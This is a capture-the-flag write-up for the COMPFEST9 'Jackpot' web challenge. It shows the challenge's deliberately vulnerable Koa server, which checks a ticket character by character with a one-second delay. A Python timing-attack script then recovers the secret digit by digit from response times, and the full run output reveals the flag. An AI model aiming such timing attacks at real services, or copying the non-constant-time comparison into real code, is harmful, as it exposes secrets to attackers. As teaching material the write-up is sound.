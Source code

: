 Jackpot (150)
=============

## Description
[https://cf9-jackpot-dtbznhqsyf.now.sh/](https://cf9-jackpot-dtbznhqsyf.now.sh/)

## Write up

Since we are given a [now.sh](https://now.sh/) website, we can see the source through
[/_src](https://cf9-jackpot-dtbznhqsyf.now.sh/_src) path, let's see `index.js`:

```js
const Koa = require('koa');
const route = require('koa-route');
const serve = require('koa-static');
const bodyParser = require('koa-bodyparser');
const crypto = require('crypto-promise');
const config = require('./config.json');

const app = new Koa();

async function getJackpot() {
  const decipher = crypto.decipher('aes256', process.env.SECRET);
  const jackpot = await decipher(process.env.JACKPOT, 'hex');
  // prevent bruteforce
  await new Promise(resolve => setTimeout(resolve, 1000));
  return jackpot.toString();
}

app.use(bodyParser());

app.use(async function(ctx, next) {
  const start = new Date();
  await next();
  const ms = new Date() - start;
  ctx.set('X-Response-Time', `${ms}ms`);
});

app.use(serve('client'));

app.use(
  route.post('/', async ctx => {
    const { ticket } = ctx.request.body;

    let flag = true;
    for ([index, _] of new Array(6).entries()) {
      const jackpot = await getJackpot();
      flag &= jackpot[index] === ticket[index];
      if (!flag) break;
    }

    if (flag) ctx.body = `Congratulations! The flag is ${process.env.FLAG}`;
    else ctx.body = 'Sorry, try again later!';
  })
);

const { port } = config;
app.listen(port);
console.log(`Listening on port ${port}`);
```

We can see that it checks for the ticket against the jackpot value one by one. But fetching the jackpot value
takes considerable amount of time, that is ~1s per index. We can exploit this for a timing attack:

```python
#!/usr/bin/env python
import requests

jackpot = ''

for idx in range(0, 6):

    longest = 0
    longest_num = None

    for num in range(0, 10):
        ticket = '{}{}{}'.format(jackpot, num, '0' * (5-idx))
        r = requests.post('https://cf9-jackpot-dtbznhqsyf.now.sh/', { 'ticket': ticket })
        time = int(r.headers['X-Response-Time'].split('ms')[0])
        print('[{}ms] {}'.format(time, ticket))

        if 'Sorry' not in r.text:
            print('[!] Success: {}'.format(r.text))
            exit()

        if (time > longest):
            longest = time
            longest_num = num

    jackpot += str(longest_num)

print('[!] Jackpot = {}'.format(jackpot))
```

Run:

```
❯ python 150-jackpot.py
[1000ms] 000000
[1000ms] 100000
[1003ms] 200000
[1001ms] 300000
[1001ms] 400000
[2003ms] 500000
[1003ms] 600000
[1001ms] 700000
[1001ms] 800000
[1005ms] 900000
[2002ms] 500000
[2002ms] 510000
[2002ms] 520000
[2010ms] 530000
[2003ms] 540000
[2002ms] 550000
[2003ms] 560000
[3003ms] 570000
[2002ms] 580000
[2003ms] 590000
[3004ms] 570000
[3020ms] 571000
[4007ms] 572000
[3002ms] 573000
[3013ms] 574000
[3009ms] 575000
[3009ms] 576000
[3004ms] 577000
[3005ms] 578000
[3004ms] 579000
[4015ms] 572000
[4010ms] 572100
[4004ms] 572200
[4006ms] 572300
[4003ms] 572400
[4006ms] 572500
[5007ms] 572600
[4004ms] 572700
[4005ms] 572800
[4006ms] 572900
[5007ms] 572600
[6005ms] 572610
[5005ms] 572620
[5005ms] 572630
[5006ms] 572640
[5006ms] 572650
[5007ms] 572660
[5007ms] 572670
[5006ms] 572680
[5014ms] 572690
[6019ms] 572610
[6009ms] 572611
[6007ms] 572612
[6006ms] 572613
[!] Success: Congratulations! The flag is COMPFEST9{BRUTEFORC3_ALL_THE_THINGS}
```
